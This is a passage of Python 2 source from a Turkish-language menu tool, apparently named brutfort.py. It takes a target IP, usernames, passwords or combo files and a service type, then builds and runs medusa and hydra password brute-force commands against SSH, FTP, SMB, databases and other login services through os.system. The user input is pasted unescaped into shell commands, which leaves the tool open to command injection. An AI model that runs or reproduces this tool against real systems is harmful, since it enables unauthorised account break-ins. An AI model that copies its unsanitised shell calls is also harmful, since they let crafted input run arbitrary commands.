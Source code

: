 		medusa= "medusa -U %s -P %s -h %s -M %s" %(user_name,password,ip_address,mod)
		print color.RED + """	******************************************************************************************************
	*  medusa -U %s -P %s -h %s -M %s
	******************************************************************************************************
	""" %(user_name,password,ip_address,mod) + color.END
		os.system(medusa)
	elif medusa_process ==5 :
		combo     = raw_input(color.BLUE + "Combo dosya uzantısını giriniz(Ör:/root/Desktop/combo.txt): " + color.END)
		ip_address= raw_input(color.BLUE + "IP adresini giriniz				 	  : " + color.END)
		print ""
		print color.RED + mods_title + color.END
		mods      = """	cvs, ftp, http, imap, mssql, mysql, ncp, nntp, pcanywhere, pop3, postgres, rexec, rlogin, 
	rsh, smbnt, smtp, smtp-vrfy, snmp, ssh, svn, telnet, vmauthd, vnc, web-form, wrapper       
		"""
		print mods
		mod	  = raw_input(color.BLUE + "Mod giriniz					 	  : " + color.END)
		print ""
		print color.YELLOW + "\tBrute Force, Medusa ile %s IP adresine %s modunda başlatıldı.\n" %(ip_address,mod) + color.END
		medusa= "medusa -C %s -h %s -M %s" %(combo,ip_address,mod)
		print color.RED + """	******************************************************************
	*  medusa -C %s -h %s -M %s
	******************************************************************
	""" %(combo,ip_address,mod) + color.END
		os.system(medusa)

	elif medusa_process == 99:
		os.system("python brutfort.py")


	else : 
		print color.RED + "\nYanlış seçim yaptınız. Lütfen kontrol edip tekrar deneyiniz." + color.END
		time.sleep(3)
		os.system("python brutfort.py")

####################### Medusa ############################	

####################### Hydra ############################
def hydra():
	services_title = """	** Services  **"""
	hydra_processes = """
		%s  Kullanıcı adı ve parola
		%s  Kullanıcı adı ve parola dosyası
		%s  Kullanıcı adı dosyası ve parola
		%s  Kullanıcı adı dosyası ve parola dosyası
		%s  Combo dosyası
		%s Ana Menüye Dön
	"""%(one,two,three,four,five,ninety)
	print hydra_processes
	hydra_process = input(color.YELLOW + "Yukarıdaki hydra yöntemlerinden birisini seçiniz : " + color.END)
	if hydra_process ==1 :
		user_name = raw_input(color.BLUE + "Kullanıcı adını giriniz : " + color.END)
		password  = raw_input(color.BLUE + "Parolayı giriniz        : " + color.END)
		ip_address= raw_input(color.BLUE + "IP adresini giriniz     : " + color.END)
		print ""		
		print color.RED + services_title + color.END
		services      ="""	asterisk, cisco, cisco-enable, cvs, firebird, ftp, ftps, http[s]-{head|get}, http[s]-{get|post}-form, http-proxy,
	http-proxy-urlenum, icq, imap[s], irc, ldap2[s], ldap3[-{cram|digest}md5][s], mssql, mysql, nntp, oracle-listener, 